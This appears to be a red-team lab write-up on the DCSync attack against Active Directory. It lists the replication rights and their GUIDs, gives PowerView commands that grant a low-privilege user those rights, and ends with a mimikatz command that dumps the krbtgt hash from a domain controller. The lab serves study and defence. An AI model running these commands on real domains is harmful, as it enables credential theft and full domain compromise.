




# DCSync: Dump Password Hashes from Domain Controller

This lab shows how a misconfigured AD domain object permissions can be abused to dump DC password hashes using the DCSync technique with mimikatz.

It is known that the below permissions can be abused to sync credentials from a Domain Controller:

> * The “[**DS-Replication-Get-Changes**](https://msdn.microsoft.com/en-us/library/ms684354%28v=vs.85%29.aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes
>   * **GUID:** 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes All**](https://msdn.microsoft.com/en-us/library/ms684355%28v=vs.85%29.aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes-All
>   * **GUID:** 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes In Filtered Set**](https://msdn.microsoft.com/en-us/library/hh338663%28v=vs.85%29.aspx)” extended right \(this one isn’t always needed but we can add it just in case :\)
>   * **CN:** DS-Replication-Get-Changes-In-Filtered-Set
>   * **GUID:** 89e95b76-444d-4c62-991a-0facbeda640c
>
> [http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

## Execution

Inspecting domain's `offense.local` permissions, it can be observed that user `spotless` does not have any special rights just yet:



Using PowerView, we can grant user `spotless` 3 rights that would allow them to grab password hashes from the DC:


```csharp
Add-ObjectACL -PrincipalIdentity spotless -Rights DCSync
```


Below shows the above command and also proves that spotless does not belong to any privileged group:



However, inspecting `offense.local` domain object's privileges now, we can see 3 new rights related to `Directory Replication` added:



Let's grab the SID of the user spotless with `whoami /all`:


Using powerview, let's check that the user `spotless` `S-1-5-21-2552734371-813931464-1050690807-1106` has the same privileges as seen above using the GUI:


```csharp
Get-ObjectAcl -Identity "dc=offense,dc=local" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "S-1-5-21-2552734371-813931464-1050690807-1106"}
```



Additionally, we can achieve the same result without PowerView if we have access to AD Powershell module:


```csharp
Import-Module ActiveDirectory
(Get-Acl "ad:\dc=offense,dc=local").Access | ? {$_.IdentityReference -match 'spotless' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```




See [Active Directory Enumeration with AD Module without RSAT or Admin Privileges](active-directory-enumeration-with-ad-module-without-rsat-or-admin-privileges.md) to learn how to get AD module without admin privileges.

### DCSyncing Hashes

Since the user `spotless` has now the required privileges to use `DCSync`, we can use mimikatz to dump password hashes from the DC via:


```csharp
lsadump::dcsync /user:krbtgt
```



## References







